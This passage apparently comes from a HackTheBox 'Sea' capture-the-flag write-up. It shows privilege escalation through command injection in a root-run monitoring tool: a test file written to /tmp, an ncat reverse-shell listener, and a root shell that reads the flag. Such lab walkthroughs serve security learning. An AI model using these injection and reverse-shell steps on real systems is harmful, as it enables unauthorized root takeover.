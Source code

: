 
We send that with Burp's repeater and check the /tmp/ directory for our file:
```shell
amay@sea:~$ ls -lah /tmp/
total 56K
drwxrwxrwt 14 root root 4.0K Dec 22 02:09 .
drwxr-xr-x 19 root root 4.0K Feb 21  2024 ..
-rw-r--r--  1 root root    0 Dec 22 02:02 jcs
```

We know command injection works and we again verify the monitoring system is running as root because the file was created with root permissions. Now we can replace the touch command with a reverse shell:
![command-injection-rev-shell](assets/img/posts/htb-sea/command-injection-rev-shell.png)

Start our listener:
```shell
❯ rev
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.149:4444
```

Send the above request with repeater, and our listener gets a connection:
```shell
root@sea:~/monitoring# whoami
whoami
root
root@sea:~/monitoring# cat /root/root.txt
cat /root/root.txt
--snip--f64716b9
```
